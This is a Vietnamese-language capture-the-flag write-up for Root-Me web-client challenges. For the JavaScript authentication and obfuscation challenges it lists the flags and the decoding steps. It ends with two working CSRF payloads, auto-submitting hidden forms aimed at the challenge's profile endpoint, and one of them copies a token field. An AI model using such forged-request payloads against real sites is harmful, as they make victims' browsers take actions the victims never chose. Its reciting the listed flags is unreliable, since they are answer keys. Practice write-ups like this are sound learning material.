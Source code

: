 ### Javascript - Authentication:https:http://challenge01.root-me.org/web-client/ch9/
password:`sh.org`

đầu tiên chúng ta coi source của nó: gợi ý của nó là `Javascript - Authentication` 

<img src="http://image.prntscr.com/image/4ee663b4801d4572a4419bd89e1deb92.png">

sau khi vào đoan js : ta thấy luôn password

<img src="http://image.prntscr.com/image/1689c5870fec47948f3e067b7a302f20.png">

### Javascript - Source: http://challenge01.root-me.org/web-client/ch1/ch1.html

password: `123456azerty`
câu này thuộc dạng khoai : chỉ cần coi source là có tất cả: 

<img src="http://image.prntscr.com/image/b7ad883e944644a2a961ec2de73d8083.png">

### Javascript - Authentication 2 :http://challenge01.root-me.org/web-client/ch11/
password:`HIDDEN`

câu này vào thẳng vấn đề, vào đoạn js như câu 2:
<img src="http://image.prntscr.com/image/395c50ed82aa4afd88cf7c525daada4e.png">
nhìn vào đoạn js , ta thấy password là phần tử thứ 2 của biến thelists!

###  Javascript - Obfuscation 1: http://challenge01.root-me.org/web-client/ch4/ch4.html:

password:`cpasbiendurpassword`

câu này có tăng level lên chút :v như mấy cái trước đầu tiên phải coi source của nó , 
<img src="http://image.prntscr.com/image/da801b784ee445b6a5e32f11334bf0c0.png">

- Thoạt nhìn tưởng chuối vì chữ pass to đung đập vào mắt :))! **nhưng sai** pass là 1 biến để truyền vào lệnh `unescape`.Được cái không học js nên chả biết cái lệnh quái quỉ này, sợt gu gồ liền , vào web `w3school` .Lệnh này có chức năng Mã hóa và giải mã một chuỗi !Vào phần ví dụ của lệnh này , thay phần biến str_esc bằng phần pass trong source và nhấn run : có ngay pass :D

<img src="http://image.prntscr.com/image/551b1f0aab004a2f8c562cc4a5623635.png"> 

###Javascript - Obfuscation 2:http://challenge01.root-me.org/web-client/ch12/ch12.html
password:`hDufjdki156` 
- chú ý phần gợi ý và phần source: gợi ý là : Going down 3 floors..... đi 3 tầng :)) , nhìn vào source thấy đoạn pass! có 3 hàm lồng nhau ! chính nó đấy, chỉ cần giải đoạn đó là có pass!

giải đoạn đầu tiên, hàm `unescape` y chang bài trên , coppy rồi pass vào coi nó ra cái gì

<img src="http://image.prntscr.com/image/bb9c274a2f064338a7118d7f104e8f72.png">

cái hàm `String.fromCharCode` cái này mới , hỏi bác gu gồ thôi :

`String.fromCharCode` : fromCharCode(): chuyễn mã Unicode thành ký tự

ví dụ:

document.write(String.fromCharCode(72,69,76,76,79) );//HELLO

ở bài này , chỉ cần thay vào là ra pass thôi :D! 

<img src="http://image.prntscr.com/image/fd226593f9c345f183bf3ec77361f3ab.png">
$ csrf
```

<form name="csrf" action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="post" enctype="multipart/form-data">

<label>Username:</label>
		
		<input type="hidden" name="username" value="b">
	
		<br>		
		<div class="form-group">
		<label>Status:</label>
		<input type="hidden" name="status" value="on" >




</from>

<script>document.forms["csrf"].submit()</script>// auto submit


```

```


<form id="profile" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="POST" enctype="multipart/form-data">
  <input type="hidden" name="username" value="a"/>
  <input type="hidden" name="status" value="on"/>
  <input type="hidden" id="token1" name="token" value=""/>
 
</form>

<script>

var loginForm = document.forms.profile; // Or document.forms['login']
  
 
    oko=document.forms['profile']["token"].value;// set oke= value token
      

document.getElementById("token1").value = oko; // set id['token1']=oko
document.forms["profile"].submit(); //auto submit form
</script>

```
